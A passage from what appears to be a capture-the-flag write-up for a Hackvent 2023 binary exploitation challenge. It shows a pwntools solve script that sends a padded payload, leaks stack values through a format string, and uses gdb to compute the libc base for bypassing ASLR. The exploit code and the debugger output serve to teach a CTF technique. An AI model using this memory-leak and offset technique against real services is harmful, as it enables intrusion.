 
I’m using the full 168 bytes while looking for the leak so that when I want to
keep running through return, I don’t have to change any offsets. I’ve put A0
after the 168 so that it will return to call `tellflag` again.

When I run this, it prints the leak and pauses:

    
    
    oxdf@hacky$ python solve.py 
    [+] Opening connection to 172.17.0.2 on port 1337: Done
    [*] Closed connection to 172.17.0.2 port 1337
    [+] Opening connection to 172.17.0.2 on port 1337: Done
    b' 0x8ffffecf8.0x800000004.0x800000014.0x800000004.0x7fffffffebe0.0x555555555858.0x7fffffffecf8.0x100000000.0x1.0x7ffff7ddba90.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0WUUUU?\n'
    > /media/sf_CTFs/hackvent2023/day16/solve.py(53)<module>()
    -> libc_leak = int(output.split(b".")[9], 16) # <__libc_start_call_main+128>
    (Pdb) 
    

The 9th one looks like a LIBC address. In the container I’ll run `gdb -q -p
$(pidof vuln)` to attach to the process. Now I can view that address:

    
    
    gdb-peda$ x/x 0x7ffff7ddba90
    0x7ffff7ddba90 <__libc_start_call_main+128>:    0xe80001b219e8c789
    

I’ll run `vmmap` to get the LIBC base address:

    
    
    gdb-peda$ vmmap
    Start              End                Perm      Name
    ...[snip]...
    0x00007ffff7db8000 0x00007ffff7dda000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7dda000 0x00007ffff7f52000 r-xp      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7f52000 0x00007ffff7faa000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7faa000 0x00007ffff7fae000 r--p      /usr/lib/x86_64-linux-gnu/libc.so.6
    0x00007ffff7fae000 0x00007ffff7fb0000 rw-p      /usr/lib/x86_64-linux-gnu/libc.so.6
    ...[snip]...
    

It starts at 0x00007ffff7db8000, which is 0x23a90 less than the leak:

    
    
    gdb-peda$ p 0x7ffff7ddba90 - 0x00007ffff7db8000
    $1 = 0x23a90
    

I’ll update my code:

    
    
    r.sendline(payload)
    r.recvuntil(b"Santa: You want me to help you with")
    output = r.recvline()
    libc_leak = int(output.split(b".")[9], 16) # <__libc_start_call_main+128>
    libc_base = libc_leak - 0x23a90
    success(f"Leaked libc base:        {libc_base:016x}")
    
